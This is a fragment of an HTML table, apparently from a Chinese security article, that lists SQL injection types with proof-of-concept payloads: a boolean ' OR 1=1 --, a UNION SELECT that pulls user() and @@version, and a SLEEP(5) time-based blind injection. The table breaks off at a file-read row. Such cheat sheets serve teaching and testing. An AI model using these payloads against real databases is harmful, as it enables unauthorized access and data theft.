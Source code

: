 <table><tbody><tr style="height:18.6000pt;"><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">注入类型</span></font></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><span style="mso-tab-count:1;"></span></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="250" width="250" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">POC示例</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="190" width="190" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-style: solid;border-color: windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">关键函数</span></font><font face="方正小标宋_GBK"><span leaf="">/特性</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">布尔检测</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="250" width="250" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; OR 1=1 --</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="190" width="190" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">-- 注释符</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">联合查询</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="250" width="250" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT user(), @@version --</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="190" width="190" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">user(), @@version</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">时间盲注</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="250" width="250" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; AND SLEEP(5) --</span></font></span><span style=""><o:p></o:p></span></p></td><td data-colwidth="190" width="190" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">SLEEP(), BENCHMARK()</span></font></span><span style=""><o:p></o:p></span></p></td></tr><tr><td data-colwidth="111" width="111" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">文件读取</span></font></span><span style=""><o:p></o:p></span></p><p><span style=""><o:p><span leaf=""> </span></o:p></span></p></td><td data-colwidth="250" width="250" valign="top" style="padding: 0pt 5.4pt;border-left: 1pt solid windowtext;border-right: 1pt solid windowtext;border-top: none;border-bottom: 1pt solid windowtext;"><p><span style=""><font face="方正小标宋_GBK"><span leaf="">&#39; UNION SELECT